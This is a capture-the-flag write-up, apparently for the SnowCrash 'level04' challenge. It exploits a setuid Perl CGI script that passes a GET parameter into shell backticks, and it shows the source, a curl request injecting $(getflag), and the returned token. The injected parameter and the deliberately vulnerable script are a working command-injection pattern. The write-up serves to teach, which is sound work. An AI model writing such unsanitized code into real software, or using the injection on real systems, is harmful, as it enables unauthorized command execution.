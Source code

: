 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2004(level04) gid=2004(level04) groups=2004(level04),100(users)
```

This shows that we are operating as the user `level04`.

---

## Step 2: Searching for Files

Next, let's check what files are in our `/home` directory:

```bash
$ ls -la
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

$ file level04.pl
level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```
We find perl script owned by `flag04` with read and executable permissions for our user. 

---

## Step 3: Read the source code

```bash
$ bat level04.pl
```

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
This script uses CGI, which means that by connecting to the machine's IP address and specified port, we can interact with it. The script executes the first parameter received from a GET request with elevated privileges.

---

## Step 4: Exploiting the Binary to Get a  SubShell

To get a subshell, we can send a GET request to the script with the appropriate parameters. Here is how you can do it:
```bash
$ curl 'machine_ip:4747?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
---

And there you have it, the token is `ne2searoevaevoem4ov4ar8ap`.
